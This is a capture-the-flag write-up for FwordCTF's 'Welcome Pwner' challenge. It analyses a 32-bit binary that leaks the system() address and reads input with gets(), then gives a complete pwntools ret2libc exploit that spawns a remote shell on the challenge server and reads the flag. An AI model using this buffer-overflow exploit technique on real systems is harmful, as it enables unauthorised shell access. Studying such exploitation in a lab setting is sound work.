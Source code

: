 # Welcome Pwner

> Points:   374
>Author :   haflout

> something to warm you up.
> nc 54.210.217.206 1240

Files provided:
 - molotov: ELF32 file.

First of all start by executing `molotov`:
```sh
$ nc 54.210.217.206 1240
f7dbc8b0
Input : 
AAAA

$ nc 54.210.217.206 1240
f7d868b0
Input : 
AAA

$ nc 54.210.217.206 1240
f7d898b0
Input : 
AAAA
```
Uhm...the first line seems to be a 32-bit address. if so, the address changes on every run (it probably means that ASLR is enabled.

`checksec` analysis:
```sh
$ checksec --file=molotov
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Full RELRO      No canary found   NX enabled    PIE enabled     No RPATH   No RUNPATH   76) Symbols       No    0               2               molotov
```

Then use `ghidra`. This is `main`:
img

This is `vuln`:
img

by analyzing `vuln` we can desume a lot of things:

 - The address shown is `system` address.
 - User input is received by `gets`, so we can use it to cause a buffer overflow
 - `canary` protection is disabled, so we can cause a buffer overflow easily.

So we can perform a `ret2libc` attack, but we still don't have everything we need. `ret2libc` requirements:

- `system` address (we have it).
- `exit` address (it isn't necessary in this case).
- `"/bin/sh"` address.

We don't have `"/bin/sh"` address but we can try to desume it. There is an [Online Tool](https://libc.rip/) that try to find the correct libc version by starting from a known address (in this case `system` address).

There are several possible `libc`, but by testing them, i found the correct one: `libc6_2.30-0ubuntu2_i386`

These are the offsets we need:
```sh
str_bin_sh	0x19042d
system	  	0x458b0
```

So now, we can write our exploit:
```python
from pwn import *

#r = process("./molotov")
r = remote("54.210.217.206",1240)

system_address = int(r.recvline()[:-1],16)

#current libc: libc6_2.30-0ubuntu2_i386
#if you want to try others libc versions, change offsets.
system_offset = 0x458b0		
bin_sh_offset = 0x19042d

#creating payload
payload = "A"*32
payload += p32(system_address)
payload += "AAAA"
payload += p32(system_address-system_offset+bin_sh_offset) #address of /bin/sh

r.sendlineafter("Input :", payload )

#switching to interactive mode. If exploit is correct, we'll get a shell.
r.interactive()
```


This is the result:
```sh
$ python exploit.py
[+] Opening connection to 54.210.217.206 on port 1240: Done
[*] Switching to interactive mode
 
$ ls
flag.txt
molotov
ynetd
$ cat flag.txt
FwordCTF{good_j0b_pwn3r}
```


So, the flag is `FwordCTF{good_j0b_pwn3r}`.

